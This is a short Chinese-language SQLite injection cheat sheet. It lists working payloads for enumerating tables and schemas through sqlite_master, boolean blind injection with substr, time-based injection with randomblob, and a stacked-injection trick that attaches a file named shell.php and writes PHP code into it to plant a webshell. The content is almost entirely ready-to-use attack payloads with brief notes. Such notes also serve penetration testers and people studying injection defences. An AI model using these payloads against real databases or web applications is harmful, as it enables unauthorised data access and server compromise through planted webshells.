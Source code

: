 ## (1) 基础语句

```sql
select sqlite_version();
```

查询所有表，不包含隐藏表`sqlite_maste`,存在`limit` 语法

```sql
SELECT group_concat(name) FROM sqlite_master WHERE type='table'
```

所有表结构(包含字段名，表名)
```sql
SELECT sql FROM sqlite_master WHERE type='table'
```

## (2) 其他注入

### ① 盲注

除去`and` ，`or` 还可用 `&` `|` , `||`在sqlite 里充当连接符 `&&`不可用
```sql
select * from test where id =1 and substr(sqlite_version(),1,1)='3'  
```

### ② 延时注入

```sql
select case when 1 then randomblob(100000000) else 0 end;
```
无if,注意调节数值大小



### ③ 写文件

前提可以堆叠注入，具有写权限
```sql
sqlite> attach database 'shell.php' as 'shell';
sqlite> create table shell.text(text varchar(300));
sqlite> insert into shell.text(text) values('<?php phpinfo();?>');
```
![ULK75Q.png](https://s1.ax1x.com/2020/07/23/ULK75Q.png)

![ULuW0U.png](https://s1.ax1x.com/2020/07/23/ULuW0U.png)
